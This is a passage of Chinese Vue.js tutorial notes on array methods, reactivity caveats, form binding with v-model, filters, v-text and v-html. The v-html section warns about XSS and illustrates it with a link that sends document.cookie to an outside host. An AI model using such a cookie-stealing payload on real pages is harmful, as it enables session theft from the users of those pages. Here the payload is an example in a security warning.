arr.forEach((item, index) => {
  console.log(item); // 1, 2, 3, 4, 5, 6
})
```

> **map()**


对数组中的每一项运行给定函数，返回每次函数调用的结果组成的数组。

```html
let arr = [1, 2, 3, 4, 5, 6];

// 迭代数组每个值加上100返回新数组
let newArr = arr.map(val => val + 100);
console.log(newArr); // [ 101, 102, 103, 104, 105, 106 ]
```

> **some()**


对数组中的每一项运行给定函数，如果该函数对任一项返回true，则返回true。

```html
let arr = [1, 2, 3, 4, 5, 6];

// 迭代数组的每一项，只要有一项符合条件就返回true
let isTrue = arr.some(val => val >= 5);
let isTrue2 = arr.some(val => val > 6);

console.log(isTrue); // true
console.log(isTrue2); // false
```

> **reduce()和reduceRight()**


这两个方法都会迭代数组的所有项，然后构建一个最终返回的值。其中，reduce()
方法从数组的第一项开始，逐个遍历到最后。而reduceRight()则从数组的最后一项开始，向前遍历到第一项。

```html
let arr = [1, 2, 3, 4];

// 从左到右累加结果
let result = arr.reduce((val1, val2) => {
  return val1 + val2;
});

console.log(result); // 10
```

> **entries()，keys() 和 values()**


ES6 提供三个新的方法——entries()，keys()和values()
——用于遍历数组。它们都返回一个遍历器对象，可以用for…of循环进行遍历，唯一的区别是keys()是对键名的遍历、values()
是对键值的遍历，entries()是对键值对的遍历。

```html
let arr = [1, 2, 3];

// entries()是对键值对的遍历
for (let val of arr.entries()) {
  console.log(val);
  /**
   [ 0, 1 ]
   [ 1, 2 ]
   [ 2, 3 ]
   */
}

// keys()是对键名的遍历
for (let val of arr.keys()) {
  console.log(val); // 0 1 2
}

// values()是对键值的遍历
for (let val of arr.values()) {
  console.log(val); // 1 2 3
}
```

### 2.vue如何检测

Vue 不能检测以下数组的变动：

1. 当你利用索引直接设置一个数组项时，例如：`vm.items[indexOfItem] = newValue`
2. 当你修改数组的长度时，例如：`vm.items.length = newLength`

举个例子：

```html
var vm = new Vue({
  data: {
    items: ['a', 'b', 'c']
  }
})
vm.items[1] = 'x' // 不是响应性的
vm.items.length = 2 // 不是响应性的
```

为了解决第一类问题，以下两种方式都可以实现和 `vm.items[indexOfItem] = newValue` 相同的效果，同时也将在响应式系统内触发状态更新：

```html
// Vue.set
Vue.set(vm.items, indexOfItem, newValue)
// Array.prototype.splice
vm.items.splice(indexOfItem, 1, newValue)
```

你也可以使用 [`vm.$set`](https://cn.vuejs.org/v2/api/#vm-set) 实例方法，该方法是全局方法 `Vue.set` 的一个别名：

```html
vm.$set(vm.items, indexOfItem, newValue)
```

为了解决第二类问题，你可以使用 `splice`：

```html
vm.items.splice(newLength)
```

## 4.7：收集表单数据

### 1.接收表单

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>收集表单数据</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <form @submit.prevent="demo">
        账号：<input type="text" v-model="user.name"><br>
        密码：<input type="password" v-model="user.pass"><br>
        描述： <textarea v-model="user.message"></textarea><br>
        爱好：
        <input type="checkbox" v-model="user.loves" value="抽烟">抽烟
        <input type="checkbox" v-model="user.loves" value="喝酒">喝酒
        <input type="checkbox" v-model="user.loves" value="美女">美女<br>
        性别：
        <input type="radio" v-model="user.sex" value="男">男
        <input type="radio" v-model="user.sex" value="女">女<br>
        学历
        <select v-model="user.selected">
            <option disabled value="">请选择</option>
            <option value="1">一年级</option>
            <option value="2">二年级</option>
            <option value="3">三年级</option>
        </select><br>
        <input type="checkbox" v-model="user.agree">阅读并接受<a href="http://www.baidu.com">《用户协议》</a>
        <button>提交</button>
    </form>
    <hr>
    <p v-for="(value,key) in user" :key="key">{{key}}:{{value}}</p>
    <hr>
    {{jsonMethod}}
</div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false
    new Vue({
        el: '#root',
        data: {
            user: {
                name: 'admin',
                pass: 'admin',
                message: '',
                loves: ['抽烟'],
                sex: '男',
                selected: '1',
                agree: null,
            },
            jsonMethod:null
        },
        methods: {
            demo(){
                this.jsonMethod =JSON.stringify(this.user)
            }
        }
    })
</script>
</html>
```

### 2.复选框值绑定

```html
<input
  type="checkbox"
  v-model="toggle"
  true-value="yes"
  false-value="no"
>
// 当选中时
vm.toggle === 'yes'
// 当没有选中时
vm.toggle === 'no'
```

这里的 `true-value` 和 `false-value` attribute 并不会影响输入控件的 `value`
attribute，因为浏览器在提交表单时并不会包含未被选中的复选框。如果要确保表单中这两个值中的一个能够被提交，(即“yes”或“no”)
，请换用单选按钮。

### 3.单选按钮绑定

```html
<input type="radio" v-model="pick" v-bind:value="a">
// 当选中时
vm.pick === vm.a
```

### 4.下拉框值绑定

```html
<select v-model="selected">
    <!-- 内联对象字面量 -->
  <option v-bind:value="{ number: 123 }">123</option>
</select>
// 当选中时
typeof vm.selected // => 'object'
vm.selected.number // => 123
```

### 5.修饰符

#### .lazy

在默认情况下，`v-model` 在每次 `input` 事件触发后将输入框的值与数据进行同步 (
除了[上述](https://cn.vuejs.org/v2/guide/forms.html#vmodel-ime-tip)输入法组合文字时)。你可以添加 `lazy`
修饰符，从而转为在 `change` 事件_之后_进行同步：

```html
<!-- 在“change”时而非“input”时更新 -->
<input v-model.lazy="msg">
```

#### .number

如果想自动将用户的输入值转为数值类型，可以给 `v-model` 添加 `number` 修饰符：

```html
<input v-model.number="age" type="number">
```

这通常很有用，因为即使在 `type="number"` 时，HTML 输入元素的值也总会返回字符串。如果这个值无法被 `parseFloat()`
解析，则会返回原始的值。

#### .trim

如果要自动过滤用户输入的首尾空白字符，可以给 `v-model` 添加 `trim` 修饰符：

```html
<input v-model.trim="msg">
```

## 4.8：过滤器

Vue.js 允许你自定义过滤器，可被用于一些常见的文本格式化。过滤器可以用在两个地方：**双花括号插值和 `v-bind` 表达式** (后者从
2.1.0+ 开始支持)。过滤器应该被添加在 JavaScript 表达式的尾部，由“管道”符号指示：

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>过滤器</title>
		<script type="text/javascript" src="../js/vue.js"></script>
		<script type="text/javascript" src="../js/dayjs.min.js"></script>
	</head>
	<body>
		<!-- 
			过滤器：
				定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
				语法：
						1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}}
						2.使用过滤器：{{ xxx | 过滤器名}}  或  v-bind:属性 = "xxx | 过滤器名"
				备注：
						1.过滤器也可以接收额外参数、多个过滤器也可以串联
						2.并没有改变原本的数据, 是产生新的对应的数据
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>显示格式化后的时间</h2>
			<!-- 计算属性实现 -->
			<h3>现在是：{{fmtTime}}</h3>
			<!-- methods实现 -->
			<h3>现在是：{{getFmtTime()}}</h3>
			<!-- 过滤器实现 -->
			<h3>现在是：{{time | timeFormater}}</h3>
			<!-- 过滤器实现（传参） -->
			<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
			<h3 :x="msg | mySlice"></h3>
		</div>

		<div id="root2">
			<h2>{{msg | mySlice}}</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false
		//全局过滤器
		Vue.filter('mySlice',function(value){
			return value.slice(0,4)
		})
		
		new Vue({
			el:'#root',
			data:{
				time:1621561377603, //时间戳
				msg:'你好'
			},
			computed: {
				fmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			methods: {
				getFmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			//局部过滤器
			filters:{
				timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
					// console.log('@',value)
					return dayjs(value).format(str)
				}
			}
		})

		new Vue({
			el:'#root2',
			data:{
				msg:'hello,xht!'
			}
		})
	</script>
</html>
```

## 4.9：v-text

### 1.简介

1.作用：向其所在的节点中渲染文本内容。(如果有html标签的话，是不会去渲染html)

2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。

### 2.代码

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>hello {{name}}</h1>
  <h1 v-text="name">hello </h1>
  <h1 v-text="str">hello </h1>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'小糊涂',
      str:'<h3>你好啊！</h3>'
    }
  })
</script>
</html>
```

### 3.案例



## 4.10：v-html

### 1.简介

+ 作用：向指定节点中渲染包含html结构的内容。

+ 与插值语法的区别：
    + v-html会替换掉节点中所有的内容，{{xx}}则不会。
    + v-html可以识别html结构。

+ 严重注意：v-html有安全性问题！！！！
    + 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
    + 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

### 2.代码

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

### 3.案例




